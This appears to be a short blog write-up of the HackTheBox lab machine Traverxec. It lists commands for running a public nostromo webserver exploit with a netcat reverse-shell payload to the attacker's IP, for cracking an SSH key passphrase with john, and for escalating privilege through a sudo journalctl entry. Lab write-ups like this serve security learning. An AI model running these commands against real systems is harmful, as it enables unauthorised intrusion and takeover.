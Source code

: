 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/Ti3kZvfLni8/0.jpg
layout: post
media_subpath: /assets/posts/2020-04-11-traverxec-hackthebox
tags:
- hackthebox
- journalctl
- linux
- nostromo
- sudo
title: Traverxec @ HackTheBox
---
```


Traverxec is a 20-point machine on hackthebox that involves using a public exploit on the nostromo webserver, cracking the passphrase of an ssh private key and abusing a sudo entry for journalctl.

{% youtube Ti3kZvfLni8 %}

## Notes

Nostromo exploit:

```
searchsploit nostromo
searchsploit -m exploits/multiple/remote/47837.py
python 47837.py traverxec.htb 80 "nc <ip> 7000 -e /bin/sh"
```

Cracking the private key:

```
ssh2john.py ./david.key | tee david.hash
john -w=rockyou.txt david.hash
```

Exploiting journalctl:

```
stty rows 2
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```